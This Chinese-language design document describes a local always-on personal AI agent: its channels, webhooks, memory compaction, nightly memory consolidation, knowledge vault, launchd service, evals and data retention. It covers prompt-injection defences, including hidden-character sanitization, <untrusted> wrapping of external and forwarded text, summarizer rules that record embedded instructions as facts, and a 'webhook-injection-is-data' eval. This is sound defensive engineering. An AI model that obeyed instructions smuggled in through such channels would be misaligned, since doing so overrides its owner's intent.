- **安装之后还要启用**：只有写在 `[plugins] enabled = ["名字"]` 里的才会被导入。`pa plugins` 显示：已加载 / 加载失败 / 已启用但没安装 / 已安装但未启用；`pa doctor` 不导入插件的代码，只提示“已启用，却没安装”。
- **工具走同一套策略**：`api.add_tool(function_tool, category="read" | "write" | ...)`，名字统一加前缀 `plugin__<名字>__`，只提供给有你参与的 run（`full`、`scheduled`）；`[policy]` 的规则按名字对它们生效。类别由插件作者声明，决定要不要问你。
- **失败只影响它自己**：加载时抛出任何异常（包括 `SystemExit`），只会让这个插件的工具消失（已经注册的一起回滚），其余照常。API 版本 `API_VERSION = 1`；`api.settings`（`[plugins.settings.名字]` 的副本，不放密钥）和 `api.data_dir`（`PA_HOME/plugins/名字`，0700）。

### 外部文字的清洗（`security/sanitize.py`）

有些字符，人看不见，模型却读得到：标签字符（U+E0000 区，渲染出来是空白）、双向控制符、终端控制码。

- 围进 `<untrusted>` 的外部内容（网页、MCP 结果……），先去掉标签字符、双向控制、C0/C1 控制码；ZWJ/ZWNJ 保留（波斯语、印地语等需要）。
- MCP 工具的描述、技能文件这类短文字处理得更严：零宽这样的格式字符也一起去掉，并提示“这份定义含隐藏字符”。
- MCP 工具定义的摘要按原始文字来算：只改了隐藏字符，也算改动，要重新看一遍。

### 渠道（`channels/`）

一个渠道 = `Channel`（`send`：投递发件箱里的消息）+ 通常也是 `Service`（`run`：监听主人）。内置的渠道，和插件提供的渠道，走同一个注册表（`registry.py`），加渠道，不用改守护进程。

**谁算主人，由渠道决定。** Telegram 里的“主人”，就是在本机上批准过的账号；陌生人只会收到一次配对码，他们的消息不会变成事件。批准在本机的终端里做：`pa channels approve telegram 码`。

**一个人，一个持续的对话**：所有渠道，共用会话 `main`；回复会回到发话的渠道和聊天；后台消息，发往 `notify.channel`（默认 `auto` = 你最近用过的聊天 App，没用过，就是终端）。`transcript` 表是给主人看的历史（收到的，进门的时候就写；发出的，在**确认送达之后**才写），和模型看到的会话日志是分开的，所以 `/new`、压缩，不会让手机上的历史消失。

**入口只有一个**（`ingress.py`）：清掉终端控制码和隐藏字符 → 命令，在这里就地回答（`/approve 3` 就是 `/approve 3`，不是模型对它的理解；同一个更新，重复投递，也只执行一次）→ 语音转文字（先查预算，按分钟记账，计入每日上限；音频不保存）→ 图片按哈希入库 → 去重，入收件箱，写历史 → 唤醒 worker。**转发来的内容**（别人写的话），不会当作主人的话进来：它会被围进 `<untrusted>`，并说明“不是主人写的”，也从不当作命令执行；被引用的消息，同理。

**Telegram**（`telegram/`）：长轮询（不需要公网地址）；偏移量，在更新被**持久处理之后**才往前推，所以重启之后，不丢，也不重；不是 Telegram 本身的失败（数据库被锁了），会重试几次，毒更新，就放弃并告知，不会堵住后面的消息；409（有残留的 webhook，就删掉；别的程序在轮询，就等）、429（按 `retry_after`）、401（关闭这个渠道，不要狂刷），都有处理。发送遵循发件箱的约定：连不上 = `ChannelError`（可以重试）；请求发出去之后超时 / 5xx = 结果未知，派发器不会盲目重发；长消息，先切 Markdown，再转 HTML（代码块被切开了，会在上一条里关闭，在下一条里重新打开），Telegram 解析不了，就退回纯文本；多段消息，中途失败 = 部分送达（也算结果未知）。审批请求，带 ✅/❌ 按钮，只有已经批准的账号才能按。只处理私聊；群、频道、被编辑的消息，都忽略。令牌只在 `.env` 里，URL 里的令牌，在日志和错误里，都会被脱敏。

**语音和图片**：语音默认走 `gpt-transcribe`（约 $0.0045/分钟；旧的 whisper 和 `gpt-4o-*-transcribe`，计划在 2027-02-26 下线）；Telegram 的 Ogg/Opus，不在 OpenAI 文档列出的格式里，装了 ffmpeg，就先转成 m4a。图片，会作为多模态的输入，给模型，但每次请求，只带最新的 `images_in_context` 张（默认 2），更早的，变成一行说明——长对话，不会一直为旧图片付费。

**Web 页面**（`web/`）：守护进程里的一个小服务器，默认只监听 `127.0.0.1:8765`；页面是一个不用构建的 PWA（原生 ES 模块、Service Worker 只缓存外壳、`manifest`），在手机上“添加到主屏幕”，就是一个 App。它是“拉取”式的渠道：页面读 `transcript`，`send` 没有事可做，也不会失败——它确认的，只是“消息已经在页面会去读的地方”；回答和“正在输入…”，通过 `/api/stream`（SSE）推给打开着的页面，断线重连之后，页面按数据库里的状态补齐，自己不保存任何数据库里没有的状态。

- **怎么进去**：在电脑上运行 `pa web pair`，生成链接 `https://…/#pair=码`（码在 `#` 之后，浏览器不会把它发给服务器；10 分钟有效、只能用一次、同时最多 5 个未用的）。页面用它换一个会话（HttpOnly + SameSite=Strict 的 cookie），随后清掉地址栏。配对失败按来源地址限流（10 次/分钟）。库里只存码和会话令牌的 SHA-256。会话闲置一段时间之后过期，可以在电脑上逐个撤销（`pa web sessions` / `revoke`）。
- **请求检查**（`security.py`）：校验 `Host`、`Origin`、`Sec-Fetch-Site`；改状态的请求要带 `X-PA` 头；请求体读取时限制长度；响应带 CSP 等头。
- **消息走同一个门**：主人写的字，经过 `Ingress`（和 Telegram 同一个入口：清洗、命令、去重、记账）；答案，经发件箱回来，和别的渠道一样。审批，以卡片的形式出现，按钮只对已经配对的浏览器有效。

**Webhook**（`webhooks/`）：让 GitHub、CI、你自己的脚本叫醒 agent。它有独立的监听端口（`127.0.0.1:8766`，不和聊天页共用）。一个请求依次检查：路由是否存在、体积和超时、签名、GitHub 的 `ping`（回 200，不入队）、路由的 `events` 白名单、路由的限流，最后看收件箱有没有见过这次投递（见过就回 `duplicate`）。

四种验签方案（`signatures.py`）：`github`（`X-Hub-Signature-256`）、`gitlab`（`X-Gitlab-Token`）、`standard`（Standard Webhooks / Svix：签 `id.timestamp.body`，只认 `v1`，轮换期间可以有多个签名）、`generic`（HMAC-SHA256，签 `时间戳.body`）。时间戳窗口 300 秒；密钥至少 16 字节，只来自 `.env`。

收到的东西是 `untrusted` 事件：内容围进 `<untrusted>`，路由里的 `prompt`（主人写的）是唯一放在围栏外面的指令；处理它的 run 只有只读的工具和 `send_message`。`pa webhooks` 会显示每条路由的地址、密钥是否可用、最近一次拒绝的原因和近一天的投递数；拒绝的原因只写进日志，不告诉发送方。

**插件提供的渠道**：和内置渠道走同一个注册表（`registry.py`）。插件包要先在 `[plugins] enabled` 里列出来，才会被导入；它的渠道出了问题，只会让它自己消失（在 `pa channels` 里看得到），不影响别的渠道，也不影响守护进程。`pa doctor` 会指出：配置里引用了，却没有任何地方提供的渠道名。

### 新对话：一次唤醒，一段对话（`harness/runner.py`、`harness/instructions.py`、`memory/store.py`、`memory/tasks.py`）

Anthropic 的 always-on 文章里，agent 大多数时间都在睡觉；每一段醒着的时间，是一次 *run*，属于某个 *session*。接着前面的事做的事件，恢复原来的会话，**其余的一律新开一个**：昨天的简报，不是今天的上下文，每天早上触发一次的计划，也不该把一年的早晨，堆进同一个对话。

- **谁继续，谁新开**（`Harness.starts_new_session`）：这一批里，有主人的消息或审批答复 → 继续它所在的会话；否则，只要会话键是它自己的（`timer:…`、`webhook:…`、`system:…`）→ 新开。新开，不是删除：日志里只追加一条 `clear` 标记，做梦、搜索和审计，仍然读得到原文；有挂起的审批，或者会话本来就是空的，就不清。
- **新对话，从哪里知道该知道的**：偏好，每次重新读；`MEMORY.md` 索引；下面的**任务进度索引**和**过去的消息**；`search_history` 查更早的。
- **任务进度**：要跨好几次唤醒才能做完的活，agent 在 `state/tasks/<名字>.md` 里写进度文件（标题 + `Status:` 一行 + 做到哪、下一步、东西在哪）。每次 run，只把“未完成任务”的**一行一条的索引**，放进上下文（`MemoryStore.load_task_index`：最多 `[memory] task_index_lines` 行，最近改的在前，已完成的只计个数，不逐条列出），要接手哪个，才去打开那个文件——对应文章里“每个任务一个进度文件，只加载索引”。索引是代码生成的，不是模型维护的，所以永远和文件一致，也不会因为做完过很多任务，而变长。
- **过去的消息**：最近 `[memory] recent_messages` 条**已经确认送达**的消息（每条至多 `recent_message_chars` 个字），作为 `<recently_sent>` 数据块，放进每次 run，让一个全新的对话，知道“主人已经听过什么”，不会把同一件事，再说一遍——对应文章里“每次 run 加载过去的消息”。

### 压缩（`harness/compaction.py`）

文章对长对话，只给了两条路：压缩，或者开新对话；两者都会丢细节，所以**重要的事，必须已经在记忆里**，上下文要保持精简。新对话，由上一节负责，这一节讲压缩。

- **日志不改**：压缩，只追加一条 `compaction` 标记，模型看到的，变成 `[摘要] + [最近的条目]`；原文仍然在日志里，`search_history` 和做梦读得到。
- **切点，不在一次往返的中间**：原样保留的部分，从一条**用户消息**开始，所以工具调用，不会和它的结果分家，最新的请求，也不会被概括掉；最近一段里，没有用户消息（一次很长的工具往返），就退到上一条用户消息——宁可多留，也不把正在做的事，摘要掉。保留的量，按 token 估计（`[context] keep_recent_tokens`，默认 10k），并且至多是 `agent.history_items` 的一半条数。
- **什么时候压缩**：估计的 token ≥ `compact_at_tokens`（默认 40k），或者可见的条目，占满条数窗口的 80%（这样，窗口永远不会在没有摘要的历史上滑动）。只在继续中的对话里，在新的话加进去**之前**做，所以摘要，不会盖住新话。这些情况会跳过：关掉了；冷却中（失败之后 `retry_after_s`，默认 1 小时）；有挂起的审批（它的结果之后到达的时候，前面得有调用）；可以概括的部分，小于 max(1000 token, 25%)（一条巨大的末尾消息，不该让每次唤醒，都为一个腾不出空间的摘要付费）；这次 run 的预算已经用完。
- **摘要怎么写**：写摘要的模型（`[context] model`，默认是快速的模型，推理强度低）会被要求：工具结果、网页、邮件里的话，只记成“某个来源要求了 X”这样的事实；摘要用第一人称，依次写：主人要什么 / 我做了什么，结果如何 / 我答应了什么，或者排了什么 / 我的详细笔记在哪。给它的对话先脱敏，工具结果和参数逐级截短（再长，就省略中段，并说明）。存下来的摘要会去掉凭据；展示的时候用 `<conversation_summary>` 围起来，注明这是你自己的笔记。
- **坏摘要，不会进去**：空的、被 token 上限截断的摘要，一律拒绝，第二次给两倍的空间；还是不行，就保持原样，进入冷却。**压缩永远不会让 run 失败**：错误只记异常的类型（不记文字，因为文字可能引用了对话）；所有花掉的钱（包括被拒绝的尝试），都记在当前这次 run 上。
- **代价**：压缩，会让提示缓存的前缀失效一次；之后新的前缀，重新被缓存。

### 检索过去说过的话（`search_history`；`core/transcript.py`、`tools/history.py`）

模型看到的会话，是裁剪过的（压缩了的、新对话从空开始的、`/new` 隐藏的），所以另有一份**完整的对话记录**（`transcript`：所有渠道，永久保存）。`search_history`，就是 agent 够到它的方式。

- **索引**：迁移 6，给 `transcript.text` 建了 FTS5 的 `trigram` 索引（外部内容表 + 三个触发器 + 对已有数据重建）。trigram 让中日韩文字（没有空格，没法分词），和“词的一部分”，都能搜到；少于 3 个字符的词（两个字的中文词），以及没有 FTS5 的 SQLite，退回到 `LIKE` 扫描，更慢，不排序，但能找到同样的消息。
- **查询**：词按空格分开，或者用 `"引号"` 成组，最多 8 个，每个 ≤ 80 个字符；`AND`、`NEAR`、`*` 这些只当普通的字；先要求全部出现，没有，再退到任一出现。
- **只有消息**：问候、通知、审批的问题和工具结果都不在里面。
- **工具**：`query`、`who`（owner / me / any）、`days`、`around`（用结果里的编号，看前后各 3 条，读懂那段对话）、`limit`（≤ 20）；片段围着命中的词，截到 240 个字；结果用 `<history>` 围起来，标明这是过去的文字，并去掉隐藏字符；类别是读（不用批准）；不提供给 `untrusted` 的 run。

### 做梦（`harness/dreaming.py`、`commands/dream.py`）

文章说：agent 边做边写的记忆，是临时拼凑的，需要一个定时任务，回看最近的会话，整理、纠正、归纳、发现规律。这就是它，规则是：

- **什么时候**：调度循环每秒调用一次 `Dreamer.tick()`——每个本地日（`[dreaming] at`，默认 03:30）之后，至多排一次；电脑那时在睡觉，醒来就补；“今天已经决定了”，先于一切写下，所以安静的夜晚，当天不会被再看一遍；`enabled = false` 可以关掉。**新条目少于 `min_new_items`（默认 20）就不做**——一个安静的夜晚，不花钱。
- **读什么**：不让模型自己去找发生了什么，由代码，从**原始的** `session_events`（被 `/new` 和压缩隐藏的，也在里面），按固定的规则，生成摘要：游标（kv `dream:cursor`）之后的条目、不含它自己的会话，按对话分组，旧的在前；工具结果，截到 300 个字，并包进 `<untrusted>`；整体围进 `<session_log>`；超过 `max_digest_chars`（6 万字）的部分，留给下一晚——游标只移到**实际读到的**最后一行。没有摘要，就不调用模型。
- **工具**：`dream` 画像里只有 `memory` 和 `search_history`；知识库开着时，再加 `vault_search`、`vault_read`、`vault_write`，而且只能在 `wiki/`、`daily/` 里新增，或往不是主人写的笔记后面追加，不能整篇改写，一晚最多 `max_new_notes`（6）篇新笔记。偏好（`/memories/preferences`）对它只读，想改的，写成建议（`proposals.md`）；每晚是一个新对话；一次的花费封顶 `max_cost_usd`（0.30，不会超过普通的单次 run 上限），超了，就在下一次调用模型之前停下。
- **能被撤销**：它的每个改动，都是一行带 run 编号的 `memory_versions`。跑完之后要**复核**：删掉的笔记，超过 `max_deleted_files`（10）个，或者超过原有笔记的 `max_deleted_share`（50%；笔记至少有 5 个，才看比例）→ **整次撤销**（倒着还原，`MemoryStore.revert_run`），通知主人一次，并算一次失败。这一晚没做完的，也走同一条撤销；知识库里这一轮写的笔记，由 `Vault.revert_run` 一并撤回（主人在那之后改过的，留着不动）。
- **进度，只在做完之后才动**：游标只在 run 完成（`completed` / `silent`）之后前进，只前进，不后退；失败，就不动，下一晚，会读到这一晚漏掉的。
- **保持安静，除非连续出问题**：它从不为了自己整理了什么，而发消息；预算封顶、出错，都不打扰；**连续三晚没做成**（run 失败、被撤销，或者收件箱重试了几次，放弃了它）→ 暂停一周，并发**一条**消息，说明用 `pa dream log` 看详情，用 `pa dream run` 手动重试；做成一次，就清零。
- **命令**：`pa dream`（开没开、几点、等着多少条新记录、上次的情况）、`pa dream log`（最近几次：它说了什么、改了哪些笔记，每个改动，都能用 `pa memory restore` 还原）、`pa dream run`（现在做一次，不管钟点，也不管安静不安静）、`pa dream run --dry-run`（只打印模型会读到的内容，不调用任何东西）。

### 知识库（`vault/`、`tools/vault.py`、`commands/vault.py`、`channels/web/vault_views.py`）

多个助手的成果要放在一个人也能用 Obsidian 打开的地方，所以知识库就是**一个文件夹的 Markdown 笔记**，文件是唯一的真相：每次读之前先看文件有没有变，索引（内存里，按修改时间增量更新，带 CJK 切词和反向链接）只是缓存，丢了就重建。完整说明见 [KNOWLEDGE_BASE.md](KNOWLEDGE_BASE.md)，取舍见 [research/reference-analysis.md](research/reference-analysis.md) 第十节。

- **文件夹**：`wiki/`（知识）、`raw/`（外面来的，只新增）、`threads/`（每个任务一篇）、`daily/`；`wiki/index.md` 和 `wiki/log.md` 由系统生成。
- **谁的话**：每篇笔记的 `origin`（owner / assistant / agent / web / tainted / system）；没有这个属性的，当作主人写的。写笔记的人由工具的画像决定，助手写的，由系统盖章，没法写成“主人的话”。读过外面内容的那一轮（污点），写出来的标 `tainted`；读到外面来的笔记，当作不可信的内容。
- **写入规则**（`Vault._allowed`，按调用者）：`private: true` 和 `[vault] exclude` 里的文件夹，助手看不到；密钥写不进去；`raw/` 只新增；夜里的整理只新增，且只在 `wiki/`、`daily/`；整篇改写要带上读到的版本（`rev`），冲突就失败，往后追加和改某一节不受影响。写入是临时文件加替换，Obsidian 和同步软件不会看到半截文件。
- **历史**：每一笔进 `vault_versions`（旧内容、谁、哪一轮），可以撤销一篇（`restore`），或一整轮（`revert_run`）；之后被主人改过的笔记，撤销时不覆盖，只提示留着没动；保留 `history_days`（180）天，由任务线的巡检顺带清理。
- **交回的结果**：接进来的助手交回结果时，`capture()` 原样存成 `raw/agents/<助手名>/<日期>-<标题>-<key>.md`，属性里记着是哪个助手、任务、步骤、结果；同一份存两次，只有一篇。被回答了的问题也这样存（`_keep_exchange`：问、可选项、答；名字用任务标题，不用助手写的话），任务笔记的“你回答了”后面带链接。
- **空间**：每个项目空间一个文件夹（`spaces/<id>/vault`），谁能读写和项目里的角色一致；`[vault] path` 只对你自己的根空间生效。
- **旧的“资料”**：第一次启动时搬进 `wiki/`（kv `vault.legacy_import` 记着做过了），旧入口保存时同步一份（`vault/legacy.py`）。
- **检查**（`lint`，也是 `pa vault lint`）：断掉的链接、没人链接的笔记、还没整理（`wiki/` 里没有笔记链接它）的 `raw/` 资料、重名、属性有问题的；只报告，不改。

### 任务线（`orchestration/threads.py`、`orchestration/narration.py`、`orchestration/thread_schema.py`）

交给其他助手的每个任务，就是一条线：一行 `threads` 记录（会话、渠道、收起时间、先别提醒到什么时候、对应的笔记），加 `orchestration_tasks` 里的状态。`ThreadKeeper` 做五件事，全是固定规则，不调用模型：

- **接住**：`delegate_agents` 派出任务时，记下是从哪个会话、哪个渠道发起的，之后的话回到同一个地方。
- **说一次**：有话要对你说的时候（助手提问、交回结果、没做成、联系断了、超时），用 `narration.say()` 的固定句子，经发件箱发出（`dedupe_key` 保证不重复）；做着的时候不说。
- **巡检**：调度进程的整理循环，定时调用 `tick()`：做着的任务一直没动静，说一次（`stall_minutes`）；等你的事，`remind_minutes` 之后提醒一次，`remind_again_hours` 之后再一次，不会更多；先别提醒的，到点才恢复。服务刚启动，或者两次巡检之间隔了两分钟以上（电脑睡过），那段时间不算（`plan_patrol` 的 `baseline`；提醒的 key 不跟着变，所以不会重复）；一次到点的有三件以上，合成一条（`narration.bundle`），已经合在里面的，不再单独说（kv `threads.said:`）。
- **收起**：已经结束的任务，过了 `archive_after_hours`（24）自动收起；没结束的、等你的，永远不收。收起不删数据，随时能取消。
- **记下来**：每个任务一篇 `threads/` 里的笔记（`follow()` 第一次运行从“现在”开始，升级之前的任务不补记）；`decorate()` 给任务加上 `thread`（阶段、标签、下一步、是否收起），网页的任务页、聊天里的卡片和栖序回复前拿到的 `<threads>` 清单，都用同一份。

“阶段”只有：等你（批准 / 回答 / 验收 / 确认）、做着、做完、已结束（没做成、取消、超时）、已收起。

### 常驻服务（`launchd.py`、`commands/service.py`）

文章里的 always-on agent，要能活过启动它的那个终端、活过一次登录、活过自己的崩溃。在 macOS 上，这是 LaunchAgent 的事。`pa service install` 会写一个任务文件，并加载它，规则是：

- **一个 home，一个任务**：默认 home 的标签是 `local.personal-agent`，别的 `PA_HOME`，会带上路径哈希的后缀——试玩另一个 home，永远不会顶掉真正在跑的那个。
- **任务文件里放什么**：程序路径、`PA_HOME`、一条固定的 `PATH`（解释器所在的目录 + Homebrew + 系统目录，这样 `ffmpeg` 找得到）、两个编码变量，以及 `--pass-env` 点名的变量。名字或值像密钥的变量会被拒绝（KEY / TOKEN / SECRET / PASS / CRED / AUTH / COOKIE / SESSION，或值里带口令、`://用户:口令@` 的地址）：这类内容只放在 `PA_HOME/.env`，由守护进程自己读；`--dry-run` 和安装之后的输出里，被复制的变量只显示名字。
- **崩了就拉起，主动停就不拉**：`RunAtLoad` + `KeepAlive = {SuccessfulExit: false}`（只在非零退出的时候重启，比如锁被别人占着，或者崩溃），`ThrottleInterval = 30`，防止原地空转；`ExitTimeOut` = 守护进程的关机宽限 + 15 秒，所以停止的时候，进行中的 run 会先做完（和迭代 2 的优雅停机，是同一条规则）。`--keep-awake` 用 `caffeinate -s` 包一层：接着电源的时候，不让 Mac 睡着。
- **装之前，先确认能跑**：解释器必须能 `import personal_agent`；任务文件写好之后，用 `plutil -lint`（launchd 自己的解析器）检查；写入是原子的，权限 0600。
- **macOS 会悄悄拒绝**：桌面 / 文稿 / 下载 / iCloud 目录里的程序，后台任务读不了（不弹窗，只有“Operation not permitted”）。`install` 发现解释器或代码在这些文件夹里，就会**警告**并解释（任务仍然会装上——用户也许已经给这个程序授过权），建议把项目放到别处，或者 `uv tool install .`；`pa service` 和 `pa doctor`，会对已经安装的任务，做同一个检查。
- **`bootout` 是异步的**：它在进程真正退出之前，就返回了，所以 `restart` 和 `uninstall`，会轮询 `launchctl print`，直到任务消失（等得比关机宽限更久，才放弃，并如实说“还在收尾”）；`kickstart -k` 受 30 秒节流的约束，重启可能要等一会儿——这是对着真实的 launchd 试出来的，不是猜的。
- **状态，来自 launchd 自己**：`pa service` 读 `launchctl print`（加载了没有、pid、`runs` 次数、上次的退出码），它的布局，不是什么承诺，缺的字段，就不显示；`pa doctor` 会报告：任务没加载、指向的程序已经不存在、或者在 macOS 的受保护目录里。
- **日志**：`pa service logs` 读守护进程自己的私有日志，输出之前，再脱一遍密；`--launchd` 看任务打印到终端的内容（日志打开之前的崩溃）。

### 评测（`evals/`、`commands/evals.py`）

Anthropic 的 always-on 文章说“先安静，再去赢得注意力”，“Demystifying evals” 说，评**结果**，不评措辞，评分器自己，也要被验证。`pa eval` 就是把这两件事落地：把“没有新东西的时候，它会不会闭嘴、读不到源的时候，会不会装作一切正常、webhook 里的话，会不会被当成指令”，变成可以反复跑的场景。

- **场景就是数据**（一页 YAML，`pa eval show` 会用大白话读给你听）：`seed`（已知的偏好 / 记忆 / 任务进度 / 已经发给主人的消息 / 配置覆盖）、`steps`（一条消息、一个定时任务、一次 webhook，按顺序，每一步，都是一次新的唤醒）、`checks`（见下）、`mock`（脚本化模型的剧本）。不认识的键，是错误，所以手滑，不会让一条检查，被悄悄跳过；路径只能在场景自己的文件夹里；一个文件至多 256 KiB；用户自己的场景，放在 `PA_HOME/evals/*.yaml`，坏文件，会被报告并跳过，不会遮住别的。
- **检查，只看效果**（`checks.py`）：`silent`、`says`（任一 / 全部短语，或者正则）、`never_says`、`max_messages`、`not_urgent`、`tools_used`、`tools_not_used`、`only_tools`、`profile`、`memory_has`、`memory_untouched`、`spend_under`。短语的比较，不分大小写，不分全角半角；从不比对整句，因为同一件事，模型有很多种说法。**每个步骤，还有一条隐含的检查 `ends-<步骤>`**：它的 run，必须以允许的方式结束（默认 `completed` 或 `silent`）——一个崩溃的 run，什么也没说，没有这一条的话，它会被当成“选择了安静”，而通过每一个 `silent` 检查。
- **在一次性的 home 里，真的跑一遍**（`bench.py`）：每个试验，有自己的目录和数据库，用的是装配好的真实 agent（真的 `send_message`、真的记忆工具、真的策略和预算），只是配置，只取主人的 `agent` / `model` / `budget` / `memory` 四段（MCP、渠道、静默时段，不会改变被测量的东西）；`notify` 固定到一个收集器，没有静默时段，也没有每小时限流（要不要说话，是被测量的东西，投递的策略，有它自己的测试）；`--max-cost` 同时压低单次 run 和每日的上限。agent 说了什么，从发件箱读，和渠道读的方式一样；run 和花费，从 run 记录里读——**失败的 run，也在里面**，所以崩溃的试验，仍然花了钱，`ends-*` 也能说出原因。
- **先验证判分本身**（`pa eval run`，默认，不联网，不花钱）：每个场景，带一份“好脚本”和几个“坏脚本”（每个坏脚本，声明它该被哪些检查抓住）。好脚本，必须通过全部检查；每个坏脚本，必须让它声明的**每一条**检查失败（顺带让别的检查失败，是允许的：一个很吵的坏脚本，多半也会越界）。一条检查，如果没有任何坏脚本能让它失败，它就什么也没证明——所以内置场景的每一种检查，都被某个坏脚本弄失败过（测试里逐一核对；只有保护产品护栏的几种——`profile`、`only_tools`、`memory_untouched`、`spend_under`——由别处的测试负责）。
- **再测真实的模型**（`pa eval run --live`）：每个场景，默认跑 `--trials` 次，每次，一个新的 home；累计花到 `--max-cost` 就停（单次试验，也受它限制）；报告里有：每个场景 k/n 通过、是不是“每一次都通过”（pass^k）、总花费，以及噪音指标——**在要求安静的步骤里，它发了几条消息**。真实的模型，是统计性的：一次通过，不是保证。
- **报告**：JSON + Markdown，写到 `PA_HOME/evals/reports/`（目录 0700，文件 0600），已经去掉密钥，每段引文，截到 400 个字符。退出码：0 全部通过、1 有失败、2 是用法或配置错误。
- **内置的六个场景**：`news-once`（同一条新闻，只说一次）、`quiet-when-nothing-new`（没有新东西，就不打扰，有延误，才开口）、`unreadable-source-is-not-a-quiet-day`（读不到源，是要说的事，不是“一切正常”）、`progress-file-across-conversations`（跨几次新对话，靠进度文件接着做）、`preferences-are-followed`（遵守你写的偏好，而且不改它）、`webhook-injection-is-data`（webhook 里夹带的指令，只是数据）。

### 数据的生命周期（`maintenance.py`、`commands/db.py`、`daemon.py`）

一个常驻的程序，会一直往数据库里写：每次工具调用一条审计、每次运行一行、每条事件和消息一行。不整理的话，它只会越来越大，`pa status`、检索和备份，都会跟着变慢。做法分四层：

- **什么能删：已经结束，而且够旧的。** 每一类记录，一条规则（`RULES`，11 条）：怎么算“结束了”，以及“结束的那一刻”，取哪一列——收件箱事件，处理完或放弃了（`COALESCE(done_at, created_at)`）、发件箱，已送达或已撤销、定时任务，触发过或已取消、审批，已经答复（`decided_at`，过期的取 `expires_at`）、配对码过期、网页邀请和会话，取“用过 / 被收回 / 过期”里**较早**的那个、run 结束、语音转文字的账单、审计、记忆文件的旧版本（每个文件最新的一版，永远留着）。**活着的东西，永远不动**：待发的消息、还会触发的定时任务、进行中的 run，以及**挂起等审批的 run**（连同它等的审批）；发送失败，或者结果未知的消息（`failed`、`maybe_sent`），要等你处理，也不动。**对话本身，根本不在规则里**：`transcript`、`session_events`、记忆、偏好、`kv`、`run_states`、`mcp_pins`、发件人表，都不会被整理——“说过什么、记得什么”，不是日志。
- **留多久：四个窗口**（`config.toml` 的 `[retention]`，单位是天，0 = 永远）：`records_days` 90（事件、消息、定时、审批、配对、网页会话）、`runs_days` 180（run 和语音账单）、`audit_days` 365、`memory_history_days` 365。`auto = false`，会关掉每天一次的自动整理，`pa db prune` 照样可以用。
- **怎么删：小批，可以打断。** 每批 500 行，一个事务（别的写入者，最多等一批的时间），批与批之间，让出 2 毫秒；一次最多挑出 5 万行，删完，再回头问；`DELETE` 里，再核对一遍条件（挑出来之后，这一行可能变了）；每一批之前，都问一次 `stop`，所以守护进程关闭的时候，不用等整轮做完。
- **什么时候删：守护进程每天一次，也可以手动。** `_upkeep_loop` 在**单独的线程**里做（心跳不会因此停），到点的判断，是 `due()`：距离上次的记录，满 24 小时，时钟被往回拨超过一天，也算；整轮做完之后，跑 `PRAGMA optimize` 和 PASSIVE 检查点，并把结果写进 `kv`。被打断的一轮，**不记为做完**，下次启动，接着来；出错，也会记下来，免得每隔几秒，就重试一次。

**文件权限**：数据库（含 `-wal`、`-shm`）创建时就是 0600，`pa init` 会把已有的收紧，`.env` 同样；`pa doctor` 发现别的用户读得到，会提示并给出命令。

**故意不自动做的，是 `VACUUM`**：它要把整个库重写一遍，需要大约 1.2 倍的空闲磁盘，而且独占数据库，所以只由 `pa db vacuum` 在没有 agent 运行的时候做（拿引擎锁，拿不到，就拒绝）；`pa doctor` 在空闲页占一半以上，且超过 50 MB 的时候，会提醒。

**`pa db`**：大小、各表的行数、现在能清理多少、保留窗口和上次整理的结果；`prune [--dry-run]`；`check [--full]`（**只读**打开，连 agent 自己打不开的坏文件，也能看；`--full` 读全部的页，并核对索引和表）；`backup`（SQLite 的在线备份接口，agent 运行的时候，也能做；单个 0600 文件，从不覆盖已有的文件，拷完自检，不过关，就删掉）；`vacuum`。备份只含数据库——记忆和偏好是文件，`config.toml` 和 `.env` 另外放；要备份一切，就拷贝整个主目录（命令的输出里，也这么说）。

**借鉴了什么，没借鉴什么**（详见 `docs/research/reference-analysis.md` 第八节）：Home Assistant 的 recorder——有上限的批、排队重来、夜间一次、`keep_days` / `auto_purge`、重写文件，只在请求的时候，或者每月一次；hermes-agent——负的时间差，不触发整理、节流，即使什么也没清，也要记录、维护从不阻塞启动、只在没有别人持有数据库的时候，才 `VACUUM`、`VACUUM` 之后，做 TRUNCATE 检查点。没取：SQLAlchemy 和多后端的分支、状态和属性的 id 去重、自动 `VACUUM`、`auto_vacuum=INCREMENTAL`。

## 依赖（刻意保持很小）

| 依赖 | 用途 | 备注 |
|------|------|------|
| `openai-agents` (~=0.24) | agent loop、MCP、Session、RunState | 传递依赖 `openai`、`mcp`、`pydantic`、`httpx` |
| `starlette` + `uvicorn` | Web 渠道 | Starlette 本来就是 SDK 的传递依赖，不再多引入 FastAPI；SSE 用 `StreamingResponse` |
| `typer`（含 rich）、`click` | CLI | |
| `croniter` | cron 表达式 | |
| `python-dotenv` | `.env` | |
| `pyyaml` | Skills frontmatter | |
| `mcp` (>=2.3,<3) | MCP 客户端类型和传输 | 随 `openai-agents` 一起装；这里显式声明，因为我们直接用它的类型 |
| `tomlkit` | `pa mcp add/remove` 改 `config.toml` 的时候，保留注释和排版 | 只在写配置的时候用；读配置，仍然用标准库 `tomllib` |
| `qrcode` | 手机登录的二维码 | |
| 开发：`pytest`、`pytest-asyncio`、`ruff` | | |

## 实现状态

| 能力 | 状态 |
|------|------|
| 调研文档、参考项目的克隆、架构设计 | ✅ 迭代 0 |
| 配置 / 目录 / SQLite / 迁移 | ✅ 迭代 1 |
| 收件箱 / 会话日志 / 发件箱 / runs | ✅ 迭代 1 |
| 记忆（VirtualFS + memory 工具 + 版本） | ✅ 迭代 1 |
| Harness（SDK 封装）+ CLI 对话 + Fake-LLM 测试 | ✅ 迭代 1 |
| Worker / Scheduler / Dispatcher / 预算 / 常驻进程 | ✅ 迭代 2 |
| 策略引擎 + 延迟审批 + 审计 + `schedule` 工具 | ✅ 迭代 2 |
| 沙箱（seatbelt/docker）/ 命令黑名单 / 文件与 shell 工具 | ✅ 迭代 3a |
| 出站网关（SSRF）/ 密钥代理 / web_fetch / http_request / 托管 web_search / 出站地址控制 | ✅ 迭代 3a |
| Agent Skills（渐进披露、安装审阅、`$name` 激活、起步技能） | ✅ 迭代 3b |
| MCP（stdio / Streamable HTTP / SSE；审阅并扣下工具定义；`pa mcp`） | ✅ 迭代 3b |
| Python 插件注册表（entry points + 白名单）、外部文字清洗 | ✅ 迭代 3b |
| 渠道基础：配对、对话历史、命令、语音转文字、图片、实时事件；Telegram | ✅ 迭代 4a |
| Web 页面（PWA）/ Webhook / 插件渠道 / 真实模型验证套件 | ✅ 迭代 4b |
| 新对话（每次唤醒一段）/ 过去的消息 / 任务进度索引 / 压缩 / `search_history` / 每夜做梦 | ✅ 迭代 5 |
| 子代理（`delegate`）、run 内的工具结果清理 | ⏳ 未做（见已知限制） |
